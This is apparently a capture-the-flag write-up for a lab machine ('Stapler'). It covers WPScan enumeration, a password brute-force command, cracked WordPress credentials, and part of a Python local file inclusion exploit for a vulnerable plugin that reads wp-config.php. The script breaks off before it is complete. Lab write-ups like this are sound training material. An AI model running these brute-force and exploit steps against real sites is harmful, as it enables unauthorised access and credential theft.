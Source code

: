 **Wordpress:** https://192.168.211.148:12380/blogblog/

## WPScan

Perform wpscan to enumerate themes, plugins and users.

```sh
wpscan --url <URL> --enumerate p --enumerate t --enumerate u
```

## Brute Force wordpress credentials

```sh
wpscan --url https://192.168.211.148:12380/blogblog/ --disable-tls-checks -P /usr/share/wordlists/seclists/Passwords/Common-Credentials/10-million-password-list-top-1000.txt
```

```text
garry:footbal
harry:monkey
scott:cookie  
```

Unfortunately none of the above users are administrators, we need admin account to get initial foothold.

## More Recon

https://192.168.208.148:12380/blogblog/wp-content/

![img](/assets/images/CTF/Proving_Grounds/Stapler/content.png)

The plugin advanced-video-embed is vulnerable to [WordPress Plugin Advanced Video 1.0 - Local File Inclusion](https://www.exploit-db.com/exploits/39646).

### Exploitation

Use the below exploit code, the one in the above throws ssl error due to the target website configuration.

```py
#!/usr/bin/env python

# Exploit Title: Advanced-Video-Embed Arbitrary File Download / Unauthenticated Post Creation
# Google Dork: N/A
# Date: 04/01/2016
# Exploit Author: evait security GmbH
# Vendor Homepage: arshmultani - http://dscom.it/
# Software Link: https://wordpress.org/plugins/advanced-video-embed-embed-videos-or-playlists/
# Version: 1.0
# Tested on: Linux Apache / Wordpress 4.2.2

# POC - http://127.0.0.1/wordpress/wp-admin/admin-ajax.php?action=ave_publishPost&title=random&short=1&term=1&thumb=[FILEPATH]

# Exploit - Print the content of wp-config.php in terminal (default Wordpress config)

import random
import urllib2
import re
import ssl

ssl._create_default_https_context = ssl._create_unverified_context
url = "https://192.168.211.148:12380/blogblog" # insert url to wordpress

randomID = long(random.random() * 100000000000000000L)

```